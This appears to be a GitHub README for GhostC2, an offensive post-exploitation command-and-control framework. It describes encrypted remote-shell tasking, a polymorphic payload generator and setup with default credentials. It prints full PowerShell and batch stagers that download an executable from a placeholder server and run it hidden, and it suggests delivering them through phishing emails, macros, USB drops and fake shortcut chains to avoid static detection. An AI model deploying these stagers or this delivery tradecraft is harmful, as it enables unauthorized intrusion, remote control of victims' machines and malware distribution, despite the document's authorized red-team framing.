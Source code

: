 # 👻 GhostC2

GhostC2 is a modular, encrypted, post-exploitation command-and-control (C2) framework built with Python and Flask. It features real-time WebSocket communication, polymorphic payload generation, operator authentication, and optional `.exe` packaging. 

Check out the wiki for an Operator Quickstart Guide.

---

## 🚀 Features

- 🔐 AES-256 encrypted communication (symmetric)
- 🌐 Real-time bidirectional WebSocket tasking
- 🧠 Operator web console with live terminal view
- 🧬 Polymorphic payload generator with randomized variables
- 🖥️ Optional `.exe` compilation with PyInstaller
- 🛡️ Flask-Login based access control
- 🧾 SQLite-based task/result logging

---

## 📁 Project Structure

```
GhostC2/
├── builds/                 # Compiled payloads (.py, .exe)
├── output/                 # (Optional legacy output dir)
├── payloads/               # WebSocket and polling Python agents
│   └── ghost_socket_payload.py
├── server/
│   ├── app.py              # Main Flask + SocketIO server
│   └── templates/          # HTML templates for dashboard, console, login
├── tools/
│   └── generate_payload.py # Payload generator script
├── utils/
│   └── crypto.py           # AES encrypt/decrypt helpers
└── README.md
```

---

## ⚙️ Setup

### 1. Install dependencies
```bash
pip install flask flask-login flask-socketio eventlet pyinstaller
```

### 2. Run the server
```bash
cd server
python app.py
```

Visit [http://localhost:8080](http://localhost:8080)

**Default Login:**
```
Username: admin
Password: ghostpass123


```
### or simply run the setup.sh file.
---

## 👾 Payloads

### ✅ WebSocket Agent *currently being worked on* use payload generator or ghost_payload.py*
```bash
python payloads/ghost_socket_payload.py
```

### 🧬 Generate Polymorphic Payload
```bash
python tools/generate_payload.py            # .py only
python tools/generate_payload.py --exe      # .py + .exe
```

Output saved to `builds/`

---

## 🖥️ Operator Console

- Live terminal view via `/console`
- Send commands to selected host
- Output streams back instantly via WebSocket

---

### 🎯 Stagers (Initial Access)

GhostC2 includes multiple **delivery stagers** in the `/stagers` directory, designed to fetch and execute the full agent from a remote server.

#### 🪖 PowerShell Stager (`payload_stager.ps1`)

Downloads and executes the payload from your GhostC2 host:

$payloadUrl = "http://your.server.ip/builds/ghost_payload.exe"
$localPath = "$env:TEMP\ghostsvc.exe"
Invoke-WebRequest -Uri $payloadUrl -OutFile $localPath -UseBasicParsing
Start-Process -FilePath $localPath -WindowStyle Hidden

yaml
Copy
Edit

Use in:
- Phishing emails
- Macros
- USB drops
- Post-exploit scripting

---

#### 🧱 Batch Stager (`payload_stager.bat`)

Simple `.bat` version for Windows:

@echo off
set PAYLOAD_URL=http://your.server.ip/builds/ghost_payload.exe
set PAYLOAD_PATH=%TEMP%\ghostsvc.exe

powershell -Command "Invoke-WebRequest -Uri '%PAYLOAD_URL%' -OutFile '%PAYLOAD_PATH%' -UseBasicParsing"
start "" "%PAYLOAD_PATH%"

yaml
Copy
Edit

Use in:
- `.zip` phishing drops
- Fake `.lnk` shortcut chains
- Legacy script execution

---

### 🔐 Reminder

These stagers **do not contain the payload directly**. They fetch the compiled GhostC2 `.exe` agent at runtime — minimizing static detection and enabling modular deployment.



---




## 🔐 Security Notes

- All beacon traffic is AES-256 encrypted
- WebSocket messages are encrypted client/server-side
- Operators must log in via Flask-Login (sessions stored securely)

---

## 🧪 Red Team Use Cases

| Scenario              | Usage                                    |
|----------------------|------------------------------------------|
| Post-exploitation    | Remote shell via encrypted WebSocket     |
| Payload generation   | Obfuscated `.py` or `.exe` files         |
| Operator dashboards  | Web UI for task/result review            |
| C2 simulations       | Train detection or analyze traffic       |

---

## ⚠️ Legal

GhostC2 is provided for **educational and authorized red team use only**. Do not deploy this tool in any environment without proper authorization.

---

## 🧠 Built by Edward Wolfgang

- GitHub: [@wolfwashere](https://github.com/wolfwashere)
- Project: GhostC2 v1.0

Feel free to fork, contribute, or adapt for your research lab, red team, or academic project.
